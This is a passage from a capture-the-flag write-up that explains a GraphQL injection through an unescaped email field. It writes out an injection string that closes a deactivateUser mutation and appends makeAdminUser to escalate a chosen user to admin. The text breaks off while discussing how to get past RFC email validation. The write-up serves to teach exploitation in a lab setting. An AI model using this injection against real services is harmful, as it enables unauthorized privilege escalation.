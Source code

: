 ```python 
        )
        
```

_Voilá_ we just found an injection point, the user's email is being used un-escaped on the graphql mutation. And we can also see that thankfully the operation is being done using that **SECRET_TOKEN** we need to call MakeAdminUser, the code also shows this task is ran every 10 seconds

--- 

## The solve

So if we want to get a flag:

- We need to create a user who's email is validated by the RFC
- We need that user to **NOT** get deactivated
- We need that user to **GET** admin status

<br>

Let's get to building that solution. Firstly the deactivation looks like this: 

```python
mutation {
            deactivateUser (user: {email: " <INPUT> "}){
                success
            }
        }
```

So to make a user NOT be deactivated AND elevated to admin we would need to do

```python
mutation {
            deactivateUser (user: {email: "" }) { success } makeAdminUser( user: { id: 1 } ) {
                success
            }
        }
```

For this, the input injection looks like this : 
```python
" }) { success } makeAdminUser( user: { id: 1 } ) {

```

**Perfect**, we can deactivate no one, and elevate a user with any id to admin

Now this is where we run into the issue, how can we register a user with this email? RFC should block it 

### How the RFC sees an email

The RFC sees an email divided in 2 parts `<local-part>@<domain>`

The Local-part can either be:
